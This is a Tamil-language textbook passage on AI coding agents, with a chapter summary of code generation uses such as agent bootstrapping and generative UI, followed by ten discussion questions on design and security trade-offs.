> **ஏற்பு அளவுகோல்கள்**: உருவாக்கப்பட்ட Agent வெற்றிகரமாக இயங்கி அடிப்படை பணிகளை முடிக்க முடியும். நிலையான message formats மற்றும் tool call protocols பயன்பாடு, மேலும் தற்போது பரிந்துரைக்கப்பட்ட models மற்றும் APIs பயன்பாடு ஆகியவற்றை சரிபார்க்கவும். பல உரையாடல் சுற்றுகளில் context மற்றும் state management இன் சரியான தன்மையை சோதிக்கவும். "முழுவதுமாக உருவாக்குதல்" மற்றும் "எடுத்துக்காட்டுகளின் அடிப்படையில் மாற்றியமைத்தல்" ஆகிய முறைகளை ஒப்பிட்டு, பிந்தையதன் தரம் மற்றும் செயல்திறனில் உள்ள நன்மைகளை சரிபார்க்கவும்.

>
>
> 
>
>
Agent bootstrapping என்பது code generation திறன்களின் இறுதி பயன்பாட்டை பிரதிபலிக்கிறது—Agent களை உருவாக்கக்கூடிய ஒரு Agent அறிவார்ந்த self-replication ஐ அடைகிறது. மேலே, Coding Agent இன் அடித்தளங்களில் இருந்து code generation இன் பல்வேறு மதிப்பு வரை, இறுதியாக bootstrapping வரை முழுமையான thread ஐ நாம் கண்டறிந்துள்ளோம்.

## Chapter Summary

இந்த அத்தியாயத்தின் மைய கருப்பொருள் சீரானதாக இருந்துள்ளது: code என்பது நிரல்களை எழுதுவதற்கான ஒரு கருவி மட்டுமல்ல; அது ஒரு Agent இன் முறைப்படுத்தப்பட்ட சிந்தனை மற்றும் துல்லியமான வெளிப்பாட்டிற்கான மொழியாகும்.

Harness engineering பகுதியிலிருந்து வரும் முக்கிய முடிவு என்னவென்றால், Coding Agents இன் உயர் முதிர்ச்சிக்கு காரணம் code generation models விதிவிலக்காக சக்தி வாய்ந்தவை என்பதல்ல, மாறாக பல தசாப்தங்களாக software engineering உள்கட்டமைப்பு—test suites, type systems, version control—இயற்கையாகவே ஒரு சக்திவாய்ந்த Harness ஐ உருவாக்குகிறது. இந்த முடிவை மற்ற Agent சூழ்நிலைகளுக்கும் நீட்டிப்பது மதிப்புக்குரியது.

இரண்டாவது பகுதி, நிரலாக்கத்திற்கு அப்பால் code generation இன் பரந்த மதிப்பை நிரூபித்தது, முக்கிய உரையில் உள்ள ஆறு பரிமாணங்களுடன் ஒத்துப்போகிறது:

- **Thinking Tool**: நிகழ்தகவு சிந்தனையின் குறைபாடுகளை ஈடுசெய்ய symbolic computation மற்றும் constraint solving ஐ பயன்படுத்துதல்
- **Business Rule Constraints**: வணிக விதிகளை தெளிவற்ற முறையில் வெளிப்படுத்துதல், மீளமுடியாத செயல்பாட்டு சூழ்நிலைகளில் ஒரு நிர்ணயிக்கப்பட்ட பாதுகாப்பு கோட்டை வழங்குதல்—இந்த பாதுகாப்பு உத்தரவாதத்தின் மதிப்பு செயல்படுத்தல் செலவை விட அதிகமாகும்
- **Multimedia Generation**: ஒரு proposer-reviewer பொறிமுறை மூலம் PPTகள் மற்றும் வீடியோக்கள் போன்ற multimodal உள்ளடக்கத்தை உருவாக்குதல்
- **System Adapter**: வடிவமைப்பு பரிணாமத்தை தானாக பின்பற்றி log parsing மற்றும் problem diagnosis இன் முழு ஆட்டோமேஷனை அடைதல்
- **Generative UI**: படிவங்கள், காட்சிப்படுத்தல்கள் மற்றும் முழுமையான தனிப்பயனாக்கக்கூடிய பயன்பாடுகளை கூட மாறும் வகையில் உருவாக்குதல், வெற்று உரை வரம்புகளிலிருந்து விடுபடுதல்
- **Agent Bootstrapping**: Agent களை சரிசெய்யவும் ஒத்த Agent களை உருவாக்கவும் code ஐ பயன்படுத்துதல், Agent களை உருவாக்கக்கூடிய ஒரு Agent ஐ உணர்தல்

ஒரு Agent க்கு code இன் மதிப்பு இதுதான்: இது பணிகளை நிறைவேற்றுவதற்கான ஒரு வழிமுறையாகவும், அறிவைக் குவிப்பதற்கும், கருவிகளை உருவாக்குவதற்கும், தன்னை மேம்படுத்துவதற்குமான ஒரு பொறிமுறையாகவும் உள்ளது—ஒரு உண்மையான "meta-capability."

இந்த கட்டத்தில், மூன்று தூண்களில் இரண்டின் விவாதத்தை நிறைவு செய்துள்ளோம்: context மற்றும் tools—மேலும் code generation அவற்றில் மிகவும் பல்துறை சார்ந்த tool ஆகும். இருப்பினும், ஒரு முக்கிய கேள்வி பதிலளிக்கப்படாமல் உள்ளது: இந்த வடிவமைப்பு முடிவுகளின் செயல்திறனை நாம் அறிவியல் ரீதியாக எவ்வாறு அளவிடுவது? அடுத்த அத்தியாயத்திலிருந்து, நாம் மூன்றாவது தூணான model-ஐ நுழைகிறோம்—evaluation-இல் தொடங்கி. அடுத்த அத்தியாயம் ஒரு முழுமையான evaluation methodology-ஐ உருவாக்கும்—evaluation environment-ஐ அமைப்பது மற்றும் datasets-ஐ வடிவமைப்பது முதல் reward models மற்றும் evaluation-driven model selection வரை—முந்தைய அத்தியாயங்கள் அனைத்திலும் விவாதிக்கப்பட்ட தொழில்நுட்ப தீர்வுகளுக்கான அளவு சார்ந்த சரிபார்ப்புக்கான வழிமுறையை வழங்குகிறது.

## சிந்தனை கேள்விகள்

1. ★★ Code generation என்பது ஒரு Agent-இன் "meta-capability" என்று அழைக்கப்படுகிறது. இருப்பினும், code execution பாதுகாப்பு அபாயங்களை அறிமுகப்படுத்துகிறது—Agent உருவாக்கிய code-இல் vulnerabilities, infinite loops, அல்லது resource exhaustion இருக்கலாம். Sandbox isolation சில பிரச்சினைகளை தீர்க்க முடியும், ஆனால் code-இன் திறன்களையும் கட்டுப்படுத்துகிறது (எ.கா., network அல்லது file system-ஐ அணுக இயலாமை). பாதுகாப்பிற்கும் திறனுக்கும் இடையே உகந்த சமநிலையை எவ்வாறு கண்டறிய முடியும்?
2. ★★★ Agent bootstrapping—Agents-ஐ உருவாக்கக்கூடிய ஒரு Agent—"intelligent self-replication"-ஐ அடைகிறது. இருப்பினும், ஒவ்வொரு bootstrapping மறுமுறையும் புதிய சார்புகள் அல்லது பிழைகளை அறிமுகப்படுத்தலாம். இந்த பிழைகள் தலைமுறைகளில் குவியுமா? Agent bootstrapping-இன் சீரழிவை எவ்வாறு தடுக்க முடியும்?
3. ★★ ஒரு code generation Agent log parsing-ஐ கையாளும் போது, அது தானாகவே format பரிணாமத்தைப் பின்பற்ற முடியும். ஆனால் format மாற்றம் ஒரு நோக்கம் கொண்ட மாற்றத்தை விட ஒரு bug ஆக இருந்தால், Agent-இன் தகவமைப்பு உண்மையில் பிரச்சினையை மறைக்கிறது. "தகவமைப்பு தேவைப்படும் மாற்றங்களுக்கும்" "அறிக்கை செய்ய வேண்டிய முரண்பாடுகளுக்கும்" இடையே ஒரு Agent எவ்வாறு வேறுபடுத்த வேண்டும்?
4. ★★ இந்த அத்தியாயம் PPT generation, video editing, மற்றும் log visualization ஆகியவற்றில் proposer-reviewer mechanism-ஐ மீண்டும் மீண்டும் பயன்படுத்துகிறது. Reviewer-இன் அழகியல் விருப்பங்கள் இலக்கு பயனரிடமிருந்து வேறுபட்டால்—எடுத்துக்காட்டாக, Reviewer தகவல் அடர்த்தி நியாயமானது என்று கருதினாலும், பயனர் அதை மிகவும் நெரிசலானதாகக் கண்டால்—feedback loop தவறான உள்ளூர் உகந்த நிலையில் ஒன்றிணையலாம். பயனர் விருப்ப feedback-ஐ Reviewer loop-இல் எவ்வாறு இணைக்க முடியும்?
5. ★★ இந்த அத்தியாயம் ஒரு Coding Agent execution மற்றும் debugging-இலிருந்து பெற்ற அனுபவத்தை codebase-இல் மீண்டும் செலுத்த பல்வேறு வழிகளை நிரூபிக்கிறது—knowledge base files-இல் எழுதுதல், architecture documentation-ஐ புதுப்பித்தல், project instruction files-ஐ பராமரித்தல், மற்றும் operation sequences-ஐ code-ஆக உறுதிப்படுத்துதல். இந்த அனுபவம் system prompt-இல் உள்ள விதிகளாக மேலும் சுத்திகரிக்கப்பட்டால், விதி தொகுப்பு காலப்போக்கில் விரிவடையும். குவிந்த விதிகளில் "garbage collection" எவ்வாறு செய்வது—நகல் அல்லது காலாவதியான உள்ளீடுகளை அடையாளம் கண்டு சுத்தம் செய்வது? ஒரு Agent தனது சொந்த அனுபவத்தை குவிக்கும் இந்த வழிமுறைக்கும், Chapter 8-இல் விவாதிக்கப்படும் system prompts-இன் தானியங்கி உகப்பாக்கத்திற்கும் இடையே உள்ள ஒற்றுமைகள் மற்றும் வேறுபாடுகள் என்ன?
6. ★ "தொலைதூர வேலைக்கு நட்பான குழுக்கள், பெரும்பாலும் AI Agents களுக்கும் நட்பானவை." உங்கள் குழு அல்லது நிறுவனம், அறிவு ஆவணப்படுத்தலின் அடிப்படையில் "AI-தயார்" நிலையில் எவ்வளவு நெருக்கமாக உள்ளது? மிகப்பெரிய தடை என்ன?
7. ★★★ Simon Willison, Agents களுக்கான "மூன்று கொடிய கூறுகளை" முன்மொழிந்தார் (தனிப்பட்ட தரவுக்கான அணுகல், நம்பத்தகாத உள்ளடக்கத்திற்கான வெளிப்பாடு, மற்றும் வெளிப்புற தொடர்பு திறன்கள்). இந்த அத்தியாயம் நான்காவது ஒன்றைச் சேர்க்கிறது: நிலையான நினைவகம் (persistent memory). நான்கு கூறுகளையும் ஒரே நேரத்தில் கையாள வேண்டிய ஒரு உற்பத்தி சூழலில், நீங்கள் எவ்வாறு ஒரு பாதுகாப்பு உத்தியை வடிவமைப்பீர்கள்?
8. ★★ Artifact pattern, ஒரு Agent ஆல் உருவாக்கப்பட்ட SQL அல்லது frontend குறியீடு, பயனரின் உலாவி அல்லது தரவுத்தளத்தில் நேரடியாக இயக்கப்பட அனுமதிக்கிறது. இருப்பினும், உருவாக்கப்பட்ட SQL அழிவுகரமான செயல்பாடுகளை இயக்கக்கூடும், மேலும் உருவாக்கப்பட்ட HTML பாதிப்புகளைக் கொண்டிருக்கலாம். கணினி பாதுகாப்பை எவ்வாறு உறுதி செய்வது?
9. ★★ வணிக விதிகளை tools களுக்குள் database-truth-based சரிபார்ப்புகளாக குறியாக்கம் செய்வதும், அழைப்பதற்கு முன் கொள்கை நிபந்தனைகளைச் சரிபார்க்க model ஐ வழிநடத்த parameter design ஐப் பயன்படுத்துவதும், அடிப்படையில் Agent நடத்தையை கட்டுப்படுத்த குறியீடு கட்டமைப்பைப் பயன்படுத்துகிறது. இயற்கை மொழி விதிகளுடன் ஒப்பிடும்போது இந்த "code as rules" முறையின் நன்மைகள் மற்றும் வரம்புகள் யாவை?
10. ★★ Artifact pattern, ஒரு Agent SQL அல்லது காட்சிப்படுத்தல் குறியீட்டை உருவாக்க அனுமதிக்கிறது, பின்னர் அது frontend ஆல் நேரடியாக இயக்கப்பட்டு, பெரிய அளவிலான தரவைச் செயலாக்க LLM ஐத் தவிர்க்கிறது. பாரம்பரிய "Agent நேரடியாக பதிலை வழங்குகிறது" முறையுடன் ஒப்பிடும்போது, இந்த "Agent குறியீட்டை உருவாக்குகிறது, கணினி குறியீட்டை இயக்குகிறது" என்ற பணிப்பிரிவின் நன்மை தீமைகள் யாவை?
